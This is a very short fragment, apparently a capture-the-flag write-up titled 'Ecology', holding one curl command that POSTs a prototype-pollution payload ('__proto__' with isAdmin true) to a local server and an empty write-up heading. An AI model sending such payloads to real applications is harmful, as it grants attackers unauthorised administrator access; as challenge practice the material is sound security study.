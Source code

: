 # Ecology
```bash
curl -H "Content-Type: application/json" -X POST -d '{"name":"user","password":"user12345","__proto__":{"isAdmin":true}}' localhost
```
## Write-up
